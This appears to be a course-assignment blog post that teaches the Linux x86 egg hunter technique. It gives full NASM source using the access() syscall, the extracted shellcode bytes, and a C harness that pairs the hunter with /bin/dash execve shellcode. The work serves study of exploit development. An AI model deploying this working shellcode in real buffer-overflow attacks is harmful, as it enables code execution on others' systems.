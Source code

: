 ```yaml
---
layout: single
title: Egg Hunter for the Win - Linux x86
date: 2018-1-18
classes: wide
header:
---
```


Introduction
------------
What is egg hunter? and why on earth would you need it? This post will answer those questions and discuss [access()](http://man7.org/linux/man-pages/man2/access.2.html) syscall briefly, which is a vital part of the shellcode itself. The post will then conclude by demoing a working egg hunter shellcode. Please note all of the work here is based off of [Skape’s paper](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf).

Egg Hunting
-----------
Egg hunting is a technique used to search the [Virtual Address Space (VAS)](https://en.wikipedia.org/wiki/Virtual_address_space) for pattern referred to by the term egg which usually marks the start of our desired payload if you will. Now you would probably be asking yourself what if we hit an unallocated memory while searching for that pattern? Well, the answer is the process will `SIGSEGV` leading to a crash. To prevent this kind of behavior we will abuse [access()](http://man7.org/linux/man-pages/man2/access.2.html) syscall to hunt for our egg without crashing (more on that later). A good example of egg hunter use case is buffer overflows with limited buffer size that won’t allow for large payloads such as bind or reverse shell, in other words we use egg hunter as stager to capture and execute larger payloads.

access()
--------
`access()` syscall is used to check what permissions the calling process has to a file referred to by `pathname`, and it consist of two arguments as shown below

```C
int access(const char *pathname, int mode);
```

Two reasons you’d want to use `access()` syscall, the first being it doesn’t have lots of arguments thus less registers to initialize, which translate to smaller size. The second reason is we’re looking for function that doesn’t write to the pointer, cause that will defeat the purpose. We’ll use `pathname` pointer to preform address validation by observing the `ZF` flag, when the pointer hits an unallocated memory it will return `EFAULT`, meaning hey this [memory page](https://en.wikipedia.org/wiki/Page_(computer_memory)) is bad try the next one. Let’s identify `access()` id `EAX`.

```sh
root@falafel:~# cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep access
#define __NR_access      33
#define __NR_faccessat  307
root@falafel:~#
```

Also its worth noting that we’ll need to repeat our egg twice (8 bytes) to avoid the collision of the egg hunter with itself, so the egg hunter would have to have two matches before it jumps to the payload.

Final Shellcode
---------------
Now that we know what egg hunter and `access()` are all about, let’s write the shellcode and then test it!

```nasm
global _start
 
section .text
 
_start:

    ; 
    ; access(2) code block
    ;
    cld                   ; make sure direction flag is NOT set
    xor edx,edx           ; initialize EDX register

nxt_page:                 ; increment page
    or dx,0xfff           ; first page alignment

nxt_addr:
    inc edx               ; increment address
    lea ebx,[edx+0x4]     ; load pointer with 8-bytes egg hunter
    push byte 0x21        ; #define __NR_access 33
    pop eax               ; load EAX
    int 0x80              ; ping kernel!
    cmp al,0xf2           ; check for EFAULT
    jz nxt_page           ; if yes go back to nxt_page
    mov eax,0x776f6f74    ; egg = woot
    mov edi,edx           ; save pointer address to EDI
    scasd                 ; compare EAX[woot] with EDI[????] first 4 bytes  
    jnz nxt_addr          ; if no go back to nxt_addr
    scasd                 ; compare EAX[woot] with EDI+4[????] second 4 bytes
    jnz nxt_addr          ; if no go back to nxt_addr
    jmp edi               ; go to the start of our shellcode
```

Let’s compile and dump shellcode!

```sh
falafel@ubuntu:~$ nasm -f elf32 -o EggHunter.o EggHunter.nasm 
falafel@ubuntu:~$ ld -z execstack -o EggHunter EggHunter.o
falafel@ubuntu:~$ objdump -d ./EggHunter|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xfc\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x74\x6f\x6f\x77\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7"
falafel@ubuntu:~$ 
```

Here’s the final egg hunter shellcode coupled with `/bin/dash` from [exploit-db](https://www.exploit-db.com/exploits/43476).

```c
#include<stdio.h>
#include<string.h>

unsigned char egghunter[]= \
"\xfc\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x74\x6f\x6f\x77\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";

unsigned char shellcode[] = \
/** wootwoot **/
"\x74\x6f\x6f\x77\x74\x6f\x6f\x77"
/** shellcode from https://www.exploit-db.com/exploits/43476/ **/
"\x31\xc0\x50\x68\x64\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";


int main(){

     printf("Egghunter Length:  %d\n", strlen(egghunter));
     printf("Shellcode Length:  %d\n", strlen(shellcode));


     (*(void  (*)()) egghunter)();
     return 0;
}
```

Demo time!

[![Egg Hunter Demo](https://github.com/ihack4falafel/ihack4falafel.github.io/blob/master/assets/images/chmod.png)](https://player.vimeo.com/video/251591647?dnt=1&app_id=122963 "Click to Watch!")

Closing Thoughts
----------------
I don’t know about you but egg hunter in its entirety fascinates me and I’m glad I learned how to write one! Thank you Skape for your awesome work! Feel free to contact me for questions via twitter [@ihack4falafel](https://twitter.com/ihack4falafel) . All of the code is available on on my github as shown in the link below.

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1115

Github Repo: [https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%203](https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%203)
